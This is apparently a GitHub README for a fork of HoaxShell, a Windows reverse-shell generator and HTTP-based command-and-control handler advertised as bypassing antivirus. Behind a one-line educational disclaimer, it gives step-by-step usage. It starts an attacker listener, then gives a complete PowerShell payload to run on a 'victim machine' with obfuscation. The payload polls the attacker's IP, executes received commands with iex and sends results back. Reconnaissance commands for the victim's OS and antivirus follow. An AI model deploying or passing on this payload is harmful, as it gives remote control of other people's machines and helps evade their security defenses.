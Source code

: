<h1 style="font-size:10vw" align="left">HoaxShell - Bypassing an Active Windows Security</h1>


[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.11-blueviolet.svg)](https://www.python.org/) <img src="https://img.shields.io/badge/Antivirus%20Bypassed-%E2%89%A5%20Yes-blue">
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">


******
⚠️ *For educational and authorized security research purposes only*


## Original Exploit Authors
Very grateful to the original script author [t3l3machus](https://github.com/t3l3machus)


## Description
Hoaxshell is a windows reverse shell payload generator and handler that abuses the http(s) protocol to establish a beacon-like reverse shell, based on the following concept:  

![image](https://user-images.githubusercontent.com/75489922/197529603-1c9238ea-af14-41f7-8834-dd37ad77e809.png)

This c2 concept (which could be implemented by using protocols other than http or pre-installed exes) can be used to establish sessions that promote the illusion of having a shell, but are far from an actual pty.


## Demo
![bypass](https://github.com/asepsaepdin/hoaxshell/assets/122620685/a00ade63-5e5d-4663-80fd-b7e9b0d4c755)


******
## Step Guides
1. First, install all the requirements

   ```bash
   sudo pip3 install -r requirements.txt
   ```

2. Make the script executable

   ```bash
   chmod +x hoaxshell.py
   ```

3. Run the script and specify  the **-s 192.168.25.72** with the perpetrator's address

   ```bash
   ./hoaxshell.py -s 192.168.25.72 -r -H "Authorization"
   ```

> **Notes**: specify -s options with the attacker IP address

4. Run the script in powershell on the victim machine with some obfuscation technique

   ```powershell
   $xxxxx='None';$s='192.168.25.72:8080';$i='7f588da6-a3488a4c-7fa96807';$p='http://';$v=Invoke-WebRequest -UseBasicParsing -Uri $p$s/7f588da6 -Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -UseBasicParsing -Uri $p$s/a3488a4c -Headers @{"Authorization"=$i}).Content;if ($c -ne $xxxxx) {$r=iex $c -ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;$t=Invoke-WebRequest -Uri $p$s/7fa96807 -Method POST -Headers @{"Authorization"=$i} -Body ([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8} 
   ```

5. Check the operating system information used by victim machine

   ```powershell
   systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
   ```

6. And check the antivirus product used by victim machine

   ```powershell
   Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
   ```




******
## Credits
- https://github.com/t3l3machus/hoaxshell#AV-Bypass-PoCs
- https://www.youtube.com/watch?v=3HddKylkRzM
- https://www.youtube.com/watch?v=fgSARG82TJY
- https://www.revshells.com/
